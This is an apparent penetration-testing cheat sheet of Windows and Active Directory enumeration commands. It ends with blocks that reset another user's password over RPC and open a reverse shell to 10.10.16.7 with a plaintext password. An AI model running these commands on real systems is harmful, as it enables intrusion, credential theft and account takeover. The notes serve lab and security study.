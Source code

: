 ### Known Enumeration:
Enum4linux -> https://github.com/CiscoCXSecurity/enum4linux
Impacket -> https://github.com/fortra/impacket
Kerbrute -> https://github.com/ropnop/kerbrute
CrackmapExec -> https://github.com/byt3bl33d3r/CrackMapExec
### Enum4linux #
`enum4linux -a IP`
`enum4linux -a IP -u username -p password`
### Basic commands ###
Displays local group information `whoami /all` | `getuid`  
local services and local ports `ps | netstat -anop`  | ``netstat -a -n -p tcp -o``
List all used drives `wmic logicaldisk get name`
List local users `Get-LocalUser`
List all domain joined users `net user /domain`
List more details about specific user `net user "admin" /domain`
List more details about specific group `net group "groupname" /domain`
List all domain groups `net group /domain`
List all local groups `Get-LocalGroup` | `Get-LocalGroupMember adminteam`
List routing table `route print`
Get process `Get-Process`
List active network connections `netstat -ano` | `netstat -anp TCP | find "2222"`
Check installed software `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
Check specific file extension 
`Get-ChildItem -Path C:\ -Include *.zip -File -Recurse -ErrorAction SilentlyContinue` 
`Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue` 
`Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
Run as different user `runas /user:backupadmin cmd`
Powershell history `Get-History` | `(Get-PSReadlineOption).HistorySavePath`
`type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
`

Check services `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
Check permission on file `icacls "C:\xampp\apache\bin\httpd.exe"`
Restart server `shutdown /r /t 0`
Get all scheduled tasks `schtasks /query /fo LIST /v` 
Get all KB's `Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }`
Find what service is using what port `Get-Process -Id (Get-NetTCPConnection -LocalPort 5040).OwningProcess`
List all env `gci env:* | sort-object name` 

### Change user password:
```
// Change the password of the Jackie user with Lisa credentials:

net rpc password jackie -U lisa -S 192.168.221.162

// FOR DOMAIN:
net rpc password "jackie" -U "sub.poseidon.yzx""/lisa" -S 192.168.193.162


rpcclient -U sub.poseidon.yzx/lisa 192.168.221.162
rpcclient $> setuserinfo2 jackie 23 Passw@rd@123
```
#### Start Shell as other user:
```
./runas.exe C.Bum Tikkycoll_431012284 cmd -r 10.10.16.7:1234
```
